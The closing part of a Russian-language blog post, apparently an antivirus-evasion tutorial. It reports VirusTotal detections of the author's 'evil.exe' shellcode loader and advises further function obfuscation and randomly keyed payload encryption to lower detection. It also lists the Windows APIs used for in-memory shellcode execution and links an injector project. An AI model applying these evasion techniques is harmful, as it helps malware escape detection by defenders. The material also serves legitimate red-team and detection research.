{width="80%"}    

Все работает.

Давайте загрузим наш `evil.exe` в virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection](https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection)

**22 из 66 антивирусных движков определяют наш файл как вредоносный.**

Можно обфусцировать и другие функции, чтобы уменьшить количество детектов антивирусами.
Для лучшего результата можно комбинировать шифрование payload с рандомным ключом и обфусцировать функции с другими ключами и т. д.

[Исходный код на Github](https://github.com/cocomelonc/2021-09-06-av-evasion-2)

- [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)    
- [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)    
- [WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)    
- [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
- [XOR](https://en.wikipedia.org/wiki/XOR_cipher)    

Как результат моего исследования появился мой проект [peekaboo](https://github.com/cocomelonc/peekaboo).    
Пример простого незаметного шеллкода и инжектора кода.